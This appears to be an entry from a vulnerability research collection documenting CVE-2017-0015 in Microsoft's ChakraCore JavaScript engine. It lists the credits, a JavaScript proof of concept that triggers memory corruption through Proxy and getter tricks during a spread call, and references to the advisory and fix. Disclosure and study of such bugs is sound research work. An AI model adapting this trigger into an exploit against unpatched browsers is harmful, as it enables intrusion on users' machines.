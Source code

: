 # CVE-2017-0015

- Fix: Mar 2017
- Credit: Qixun Zhao of Qihoo 360 Skyeye Labs, lokihart, Simon Zuckerbraun

## PoC

PoC from [tunz](https://github.com/tunz)

```javascript
let f = new Function("console.log(arguments[300]);");
let a = [1,2,3];
let b = [];
b.length = 1000;
b.fill(2);

let p = new Proxy([], {
   get: function (oTarget, sKey) {
    console.log("get");
    a.length = 4; // Make a hole
    return oTarget[sKey] || 0 || undefined;
  },
});
b.__proto__ = p;

let proto = [];
Object.defineProperty(proto, 3, {get: function() {
  console.log("hi")
  b.length = 1;
  return 4;
}});
a.__proto__ = proto;

f(1, ...a, ...b);
```

## Reference

- [Microsoft (MS17-007)](https://technet.microsoft.com/en-us/library/security/ms17-007.aspx)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/720bacde5d547b01561e68344cde6a67e44739fc)
